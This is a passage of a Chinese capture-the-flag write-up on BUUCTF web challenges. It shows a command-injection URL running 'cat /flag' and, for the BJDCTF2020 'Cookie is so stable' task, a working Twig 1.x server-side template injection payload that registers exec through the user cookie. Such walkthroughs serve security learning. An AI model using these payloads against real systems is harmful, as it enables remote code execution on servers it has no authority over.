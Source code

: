 ```python
    res = requests.post(url, data=data)
    if 'XZXZTEST' in res.text:
        print('post',data)
```

跑出来结果是 `Efa5BVG` 这个参数

最后在题目网站里访问查看 flag

```
http://322b2b43-4388-4229-ac9a-4ae3a393ed7a.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208262311461.png)

页面爆了 Warning, 也可以利用这个思路把 assert 对应的参数试出来, 方法不止一种

## [BJDCTF2020]Cookie is so stable

flag.php 处输入用户名

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208271958544.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208271958886.png)

Hello 后面没有显示了, 把 cookie 删掉试试?

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208271958486.png)

返回头里面有 set-cookie

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208271959964.png)

两个 cookie 都设置一下后返回 Hello 123

尝试把 cookie 中的 user 改成 `{{7*7}}`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208272000115.png)

存在 ssti, 之后通过下图判断对应的模板引擎

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208271928979.png)

`{{7*'7'}}` 返回 Hello 49, 而且是 PHP 语言, 只能是 Twig 了

参考文章 [https://xz.aliyun.com/t/10056](https://xz.aliyun.com/t/10056)

发现 Twig 的版本是 1.x, 关于 `_self` 变量的 payload 直接就能用

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208272006908.png)

利用 exec 执行的时候好像只能返回一行, 用 for endfor 循环没成功, 不过读 flag 没有影响
